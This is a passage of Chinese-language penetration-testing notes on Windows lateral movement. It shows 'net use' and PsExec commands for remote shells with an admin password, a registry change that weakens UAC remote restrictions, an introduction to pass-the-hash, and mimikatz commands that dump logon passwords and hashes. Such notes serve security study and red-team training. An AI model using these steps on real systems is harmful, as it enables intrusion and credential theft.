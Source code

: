 也可以net连上之后psexec：

```
net use \\192.168.188.100\ipc$ Admin123! /user:administrator 

PsExec.exe -accepteula \\192.168.188.100 cmd.exe
or
PsExec.exe -accepteula \\192.168.188.100 ipconfig
```

注意要关UAC或者加注册表：

```
HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionPoliciesSystem
添加新DWORD值，键值：LocalAccountTokenFilterPolicy 为1。
```

但我一直是拒绝访问，，，，不知道为啥。。。。。



## PTH(Hash传递攻击，pass the hash)

[Kerberos相关攻击技巧](https://xz.aliyun.com/t/8690)

[Hash传递攻击](https://cloud.tencent.com/developer/article/1829649)

[内网渗透之命令行渗透 - 渗透红队笔记](https://cloud.tencent.com/developer/article/1752168)

### 简介

PTH攻击是指攻击者可以通过捕获密码的hash值（无需解密），简单地将其传递来进行身份验证，以此来横向访问其他网络系统。

攻击者通常通过抓取系统的活动内存和其他技术来获取哈希。

工具：

>   [Github](https://github.com/maaaaz/impacket-examples-windows)
>
>   [mimikatz](https://github.com/gentilkiwi/mimikatz)

### 使用mimikatz

使用mimikatz抓取密码或者hash，其实如果在域内主机可以获取到明文密码，我们可以使用明文密码进行登录，但是在很多情况下，由于域内密码复杂度要求，我们可能无法获取到域内主机明文密码，这就导致我们必须使用hash传递来获取域控权限。

需要本地管理员权限

```sh
privilege::debug  # 查看是否有debug权限
token::elevate    # 提升到最高权限
sekurlsa::logonpasswords full  #抓取所有的密码,如果密码复杂则只会抓到hash
```
